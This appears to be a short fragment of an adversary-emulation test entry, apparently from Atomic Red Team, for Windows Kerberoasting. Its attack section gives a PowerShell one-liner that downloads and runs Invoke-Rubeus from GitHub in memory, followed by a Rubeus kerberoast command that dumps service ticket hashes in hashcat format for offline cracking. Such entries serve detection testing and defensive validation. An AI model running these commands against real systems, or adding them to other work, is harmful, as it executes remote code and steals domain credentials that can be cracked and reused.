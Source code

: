 **Supported Platforms:** Windows


**auto_generated_guid:** 29094950-2c96-4cbd-b5e4-f7c65079678f






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1')
Invoke-Rubeus -Command "kerberoast /format:hashcat /nowrap"
```






<br/>
